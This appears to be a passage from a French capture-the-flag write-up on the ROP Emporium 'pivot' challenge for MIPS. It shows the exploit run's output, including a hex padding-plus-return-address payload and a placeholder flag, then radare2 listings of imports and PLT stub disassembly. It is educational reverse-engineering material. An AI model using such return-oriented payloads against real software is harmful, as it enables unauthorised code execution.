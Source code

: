     [*] Payload size : 0x28
    [*] 4141414141414141414141414141414141414141414141414141414141414141086fda3fd00c4000
    [*] Switching to interactive mode
    Thank you!
    foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot
    ROPE{a_placeholder_32byte_flag!}
    [*] Got EOF while reading in interactive

## Annexe

Pour localiser la PLT avec radare2. On peut par exemple afficher les segments et filtrer les reférences "imp".

    [0x00400c5c]> is~imp.
    15  ---------- 0x00000000 WEAK   NOTYPE 16       imp._ITM_registerTMCloneTable
    16  ---------- 0x00000000 GLOBAL OBJ    16       imp.stdout
    17  0x00000e90 0x00400e90 GLOBAL FUNC   16       imp.memset
    18  0x00000e80 0x00400e80 GLOBAL FUNC   16       imp.setvbuf
    19  0x00000e70 0x00400e70 GLOBAL FUNC   16       imp.__libc_start_main
    20  0x00000e60 0x00400e60 GLOBAL FUNC   16       imp.foothold_function
    21  0x00000e50 0x00400e50 GLOBAL FUNC   16       imp.exit
    22  ---------- 0x00000000 WEAK   FUNC   16       imp.__gmon_start__
    23  0x00000e40 0x00400e40 GLOBAL FUNC   16       imp.puts
    24  0x00000e30 0x00400e30 GLOBAL FUNC   16       imp.malloc
    25  0x00000e20 0x00400e20 GLOBAL FUNC   16       imp.free
    26  0x00000e10 0x00400e10 GLOBAL FUNC   16       imp.printf
    27  ---------- 0x00000000 WEAK   NOTYPE 16       imp._ITM_deregisterTMCloneTable
    28  0x00000e00 0x00400e00 GLOBAL FUNC   16       imp.read

Si on observe la PLT on voit que chaque fonction importée possède une entrée de 4 mots.

```mips
    [0x00400e00]> pd 24
                ;-- section..MIPS.stubs:
                ;-- .MIPS.stubs:
                ;-- read:
                ; UNKNOWN XREF from aav.0x004003ec @ +0x1c4
                ; CALL XREFS from sym.pwnme @ 0x400ba0, 0x400c18
    ┌ 16: sym._MIPS_STUBS_ ();
    │           ; var int32_t var_10h @ sp+0x10
    │           ; var int32_t var_1ch @ sp+0x1c
    │           0x00400e00      1080998f       lw t9, -0x7ff0(gp)          ; obj._GLOBAL_OFFSET_TABLE_
    │                                                                      ; [0x412020:4]=0 ; [14] -r-x section size 176 named .MIPS.stubs
    │           0x00400e04      2578e003       move t7, ra
    │           0x00400e08      09f82003       jalr t9
    └           0x00400e0c      1c001824       addiu t8, zero, 0x1c
                ;-- printf:
                ; UNKNOWN XREF from aav.0x004003ec @ +0x1a4
                ; CALL XREFS from sym.pwnme @ 0x400b48, 0x400b80, 0x400bf4
    ┌ 16: aav.0x00400e10 ();
    │           0x00400e10      1080998f       lw t9, -0x7ff0(gp)          ; obj._GLOBAL_OFFSET_TABLE_
    │                                                                      ; [0x412020:4]=0
    │           0x00400e14      2578e003       move t7, ra
    │           0x00400e18      09f82003       jalr t9
    └           0x00400e1c      1a001824       addiu t8, zero, 0x1a
                ;-- free:
                ; UNKNOWN XREF from aav.0x004003ec @ +0x194
                ; CALL XREF from main @ 0x400a90
    ┌ 16: aav.0x00400e20 ();
    │           0x00400e20      1080998f       lw t9, -0x7ff0(gp)          ; obj._GLOBAL_OFFSET_TABLE_
    │                                                                      ; [0x412020:4]=0
```